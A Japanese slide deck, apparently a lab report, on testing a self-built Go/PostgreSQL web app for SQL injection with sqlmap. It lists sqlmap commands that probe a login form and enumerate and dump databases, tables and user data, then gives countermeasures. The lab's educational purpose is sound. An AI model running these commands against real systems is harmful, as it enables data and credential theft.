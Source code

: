 ```yaml
---
marp: true
theme: default
---
```


# SQLインジェクション脆弱性実験

---

## 実験概要

- **目的**: Goで作成したWebアプリケーションに存在するSQLインジェクション脆弱性を`sqlmap`を用いて攻撃し、その影響と対策を理解する。
- **対象**: 今回作成したGoアプリケーション
- **ツール**: `sqlmap`

---

## 環境構築

- **OS**: Ubuntu Server
- **Webサーバ**: Nginx
- **アプリケーション**: Go
- **データベース**: PostgreSQL

```mermaid
graph TD
    A[クライアント] --> B(Nginx);
    B --> C(Go Application);
    C --> D(PostgreSQL);
```

---

## 実験手順

1.  **環境構築**: Ubuntu Server上にNginx, Go, PostgreSQLをセットアップする。
2.  **アプリケーションのデプロイ**: 作成したGoアプリケーションをデプロイし、Nginxと連携させる。
3.  **脆弱性の確認**: `sqlmap` を使用して、ログインフォームなどからSQLインジェクション攻撃を試みる。
4.  **結果の分析**: `sqlmap` によって得られた情報（DB名、テーブル、データなど）を確認する。

---

## sqlmapの実行コマンド例

```bash
# ログインページに対してPOSTリクエストで検査
sqlmap -u "http://<対象のIPアドレス>/login" --data="username=test&password=test" --risk=3 --level=5 -p username --dbms=postgresql

# データベースの情報を取得
sqlmap -u "..." --dbs

# テーブル一覧を取得
sqlmap -u "..." -D <DB名> --tables

# カラム一覧を取得
sqlmap -u "..." -D <DB名> -T <テーブル名> --columns

# データをダンプ
sqlmap -u "..." -D <DB名> -T <テーブル名> -C <カラム名> --dump
```

---

## 結果

ここに`sqlmap`の実行結果や、それによって明らかになった脆弱性の詳細を記述します。

（例）
- `sqlmap`により、`users`テーブルの存在が確認された。
- ユーザ名とパスワード（ハッシュ化されている場合はそのハッシュ値）のダンプに成功した。

---

## まとめと対策

- **まとめ**: 今回の実験により、パラメータのエスケープ処理が不十分な場合、容易にSQLインジェクション攻撃が成功することが確認できた。
- **対策**:
    - **プリペアドステートメントの使用**: SQLクエリを組み立てる際に、プレースホルダを使用する。
    - **入力値のバリデーション**: ユーザからの入力が想定された形式・型であることを常に検証する。
    - **WAFの導入**: Web Application Firewallを導入し、不正なリクエストを検知・ブロックする。

